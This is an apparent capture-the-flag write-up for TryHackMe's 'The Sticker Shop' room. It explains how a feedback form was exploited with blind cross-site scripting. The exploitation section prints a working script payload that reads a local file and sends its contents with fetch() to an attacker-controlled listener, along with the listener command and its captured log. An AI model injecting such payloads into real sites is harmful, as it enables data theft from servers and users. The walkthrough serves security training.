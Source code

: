 ```yaml
---
title: The Sticker Shop - tryhackme, toxicat0r
date: 2025-02-17 11:27:10 -5000
categories: [THM,Easy,Linux]
tags: [XSS,Web,Misconfiguration]
---
```


Can you exploit the sticker shop in order to capture the **flag**?
![TheStickerShop.png](Assets/Pictures/TheStickerShop/TheStickerShop.png)

Today, I'm going to solve The [The Sticker Shop](https://tryhackme.com/room/thestickershop) easy-level challenge.

---

## Description
Your local sticker shop has finally developed its own webpage. They do not have too much experience regarding web development, so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback. Smart move!

- Can you read the flag at `http://MACHINE_IP:8080/flag.txt?`

---

## Observations
The goal of The Sticker Shop challenge is to **exploit** the website and retrieve the **flag**.
The Sticker Shop website consists of **two** pages:
1. **Home Page:**
Features a simple interface displaying cat stickers with some basic styling.
![home-page.png](/Assets/Pictures/TheStickerShop/home-page.png)
No immediate vulnerabilities are visible here

2. **Submit Feedback Page:**
Contains a feedback form with a `textarea` where users can submit their feedback.
![feedback-page.png](/Assets/Pictures/TheStickerShop/feedback-page.png)
The form accepts data via a **POST** request to `/submit_feedback`.

---

## Initial Observations
At first glance, the Home Page appears harmless, with no obvious vulnerabilities. However, the `/submit_feedback` page could serve as a critical entry point for exploitation.

**Why?**

The feedback form accepts user-supplied input, making it a potential injection point for `XSS` attacks. If the input is not properly sanitized or validated, an attacker could inject malicious scripts, leading to:
- **Blind XSS** – The script triggers when an admin or user later views the stored **feedback**.

---

## Exploitation
To exfiltrate the flag, I crafted the Blind `XSS` payload:

````js
'"><script>
  fetch('http://127.0.0.1:8080/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://<YOUR-IP-ADDRESS-tun0>:8000/?flag=' + encodeURIComponent(data));
    });
</script>
````
How It Works:
- The script fetches the contents of `/flag.txt` from the local server (`127.0.0.1:8080`).
- Once retrieved, it sends the flag as a GET request to your listener (`YOUR-IP-ADDRESS:8000`).

To intercept the flag, I set up a `Python HTTP server` on my machine.
````console
python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
````
then i submitted the XSS payload through the feedback form.
![payload-inject.png](/Assets/Pictures/TheStickerShop/payload-inject.png)
Shortly after submission, my HTTP server captured the exfiltrated `flag` in an incoming `GET` request.
````console
python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
"GET /?flag=THM[REDACTED] HTTP/1.1" 200 -
"GET /?flag=THM[REDACTED] HTTP/1.1" 200 -
````
With that, I retrieved the flag remotely,
![the-sticker-shop-solved.png](/Assets/Pictures/TheStickerShop/the-sticker-shop-solved.png)
completing [The Sticker Shop](https://tryhackme.com/room/thestickershop).

---

## Happy hacking !
Here are some resources:
* [https://www.geeksforgeeks.org/what-is-cross-site-scripting-xss/](https://www.geeksforgeeks.org/what-is-cross-site-scripting-xss/)
* [https://www.geeksforgeeks.org/what-is-cross-site-scripting-xss/](https://www.geeksforgeeks.org/what-is-cross-site-scripting-xss/)